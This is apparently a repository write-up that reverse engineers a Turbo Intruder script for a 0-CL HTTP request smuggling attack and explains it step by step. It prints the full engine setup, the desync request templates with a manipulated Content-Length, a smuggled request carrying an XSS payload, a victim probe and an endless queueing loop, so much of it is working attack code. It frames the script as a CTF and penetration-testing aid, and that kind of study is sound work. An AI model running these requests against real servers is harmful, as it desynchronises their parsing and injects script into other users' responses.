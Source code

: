 # Reverse Engineering the “Turbo” Burp Intruder Script

## 0) What this script is for (in one line)
It automates a **0-CL / request-smuggling** attack by desynchronizing the front-end and back-end, smuggling a crafted request (with an XSS marker), and then probing with a “victim” request to observe success.

---

## 1) Global state

```python
stop_attack = False
```

- **Purpose:** Legacy flag used in earlier variants to stop the loop when a success marker appears. In the “manual-stop” version, this flag is not used to break the loop; it’s just left in place and harmless.
- **Impact:** No functional effect unless the loop checks it (the manual-stop version does not).

---

## 2) Entry point: `queueRequests(target, wordlists)`

This is called by Burp’s Intruder engine at attack start.

### 2.1 Request engine configuration

```python
engine = RequestEngine(
    endpoint=target.endpoint,
    concurrentConnections=10,
    requestsPerConnection=1,
    engine=Engine.BURP,
    maxRetriesPerRequest=0,
    timeout=15
)
```

- **endpoint:** Comes from Intruder’s target. All requests go there.
- **concurrentConnections=10:** Up to 10 TCP connections to increase race/desync chances.
- **requestsPerConnection=1:** Keeps each connection “fresh” (helps with precise queueing/ordering).
- **Engine.BURP:** Use Burp’s own HTTP stack.
- **maxRetriesPerRequest=0:** Don’t retry (retries can destroy timing for desync).
- **timeout=15:** Per-request timeout.

**Why:** Timing and connection reuse control are critical in desync attacks; these choices reduce variance and keep behavior predictable.

---

## 3) Request templates

The script defines multiple “building block” requests:

### 3.1 `kurnabiva1` (initial POST)

```http
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: {host}
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: %s
```

- Contains a `%s` placeholder that will be replaced by Intruder with a number.
- Crafted to look like a normal POST but with manipulated `Content-Length`.
- **Purpose:** This sets up the front-end/back-end desynchronization (classic 0-CL technique).

### 3.2 `smuggled` (payload)

```http
GET /post?postId=10 HTTP/1.1
User-Agent: yu5md"><script>alert(1)</script>hgpov
user-agent: yu5md"><script>alert(1)</script>hgpov
X: Y
```

- Deliberately malformed/duplicated headers.
- Carries the XSS payload (`<script>alert(1)</script>`) with marker `hgpov`.
- **Purpose:** This is the injected “ghost request” that rides inside the desync.

### 3.3 `kurnabiva2_chopped`

```http
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
X: Y
```

- Fragment request to confuse the back-end parsing state.

### 3.4 `kurnabiva2_revealed`

```http
GET /404 HTTP/1.1
Host: {host}
User-Agent: foo
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
```

- Completes the chopped request.
- When combined with `smuggled`, it desynchronizes back-end’s view vs front-end’s view.

### 3.5 `victim`

```http
GET / HTTP/1.1
Host: {host}
User-Agent: foo
```

- Simple request used as probe.
- If the smuggled payload took effect, response here will reflect it.

---

## 4) Queueing logic

```python
while True:
    engine.queue(kurnabiva1, len(kurnabiva2_chopped), label='kurnabiva1', fixContentLength=False)
    engine.queue(kurnabiva2_chopped + kurnabiva2_revealed + smuggled, label='kurnabiva2')
    engine.queue(victim, label='victim')
```

- **Infinite loop**: Will run until the operator manually stops Intruder.
- Queues three types of requests in strict order:
  1. Desync setup (`kurnabiva1`)
  2. Desync trigger + smuggled payload (`kurnabiva2`)
  3. Probing request (`victim`)

---

## 5) Response handler

```python
def handleResponse(req, interesting):
    table.add(req)
    if req.label == 'victim' and 'hgpov' in req.response:
        print("[+] Donne, your exploit is finished!")
```

- Every response is logged in the Intruder table.
- For “victim” responses, script scans for marker `hgpov`.
- If found: prints success message.

**Note:** In this “manual-stop” version, the attack does not automatically halt; it simply prints confirmation. The operator must stop Intruder.

---

## 6) Attack logic flow

1. Send malformed POST with Content-Length mismatch.  
2. Immediately send crafted GET fragments + smuggled payload.  
3. Immediately send a “victim” probe.  
4. If back-end is desynced: smuggled payload will be executed and response will contain marker.  
5. Script prints success line.  
6. Operator manually stops Intruder.  

---

## 7) Key insights from reverse engineering

- **Minimalist but effective**: Only three request types.  
- **Reusable**: Can be adapted to different payloads.  
- **Operator-driven stop**: Puts analyst in control instead of auto-halting.  
- **Demonstration-oriented**: Its real purpose is educational / CTF-lab exploitation rather than stealth red-team work.  

---

## 8) Security implications

- Designed for **authorized security testing only**.  
- Demonstrates how subtle HTTP parsing quirks can lead to request smuggling and stored/ reflected XSS.  
- Highlights importance of aligning front-end/back-end parsers.  

---

## 9) Conclusion

This script is a hands-on educational tool for **HTTP request smuggling** research and CTFs. Its three-level structure (setup, smuggle, probe) is a distilled blueprint of desync exploitation.  
Reverse engineering confirms it is not malware; rather, it is a specialized exploitation aid for penetration testers.  
